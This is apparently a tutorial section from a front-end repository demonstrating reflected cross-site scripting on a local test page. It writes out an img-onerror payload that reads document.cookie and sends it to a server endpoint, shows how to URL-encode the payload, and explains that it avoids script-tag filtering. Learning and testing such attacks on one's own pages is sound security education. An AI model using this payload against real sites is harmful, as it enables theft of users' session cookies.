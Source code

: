 Now run it with live server.Now while passing the query params ,manupulate the url.

Passing simple query paramaters.
```js
http://127.0.0.1:5500/index.html?name=%22saurabh%22
```

Manupulating the URL:

```
'?name=<img src="does-not-exist" onerror="var img=document.createElement(\'img\'); img.src=\'http://127.0.0.1:5500/cookie?data=\'+ document.cookie; document.querySelector(\'body\').appendChild(img);">'

```
In previous days you can directly add a script to the query params but the browsers can detect it easily so this using image tag is a hack. If src is not exist in img tag it'll run onerror code...try running this code.
And make sure the URL is encoded:

use: encodeURIComponent is the browers api.

```js
encodeURIComponent('?name=<img src="does-not-exist" onerror="var img=document.createElement(\'img\'); img.src=\'http://127.0.0.1:5500/cookie?data=\'+ document.cookie; document.querySelector(\'body\').appendChild(img);">')
```

then pass it as a query param:

```js
localhost:<port>?<encoded uri given above>
```

What does the above url Conclude lets check it out::

```
var img=document.createElement(\'img\');
img.src=\'http://127.0.0.1:5500/cookie?data=\'+ document.cookie;
document.querySelector(\'body\').appendChild(img);

```
we are passing an image tag, Script tags can't be injected nowadays because browsers are pretty secure and smart. So this hack can be done. If src is "does not exist" it'll call onerror, In a script we are creating a dom node of img and setting src as a url which contail document.cookie which is your cookie (Fucked up).so in that endpoint mentioned after the img.src. the request was rend with the cookie data.


**TEST:**
<img width="900" alt="image" src="https://github.com/SaurabhMulay999/FrontEnd-Design/assets/90036775/2a8c7b94-0b36-4409-ad48-cb874c711d89">

<br>

<img width="714" alt="image" src="https://github.com/SaurabhMulay999/FrontEnd-Design/assets/90036775/5f029073-2a93-470e-bdd2-e3f061205568">

**We had tested as above and yes the script was injecting the image tag and exposing the user cookies as well.**
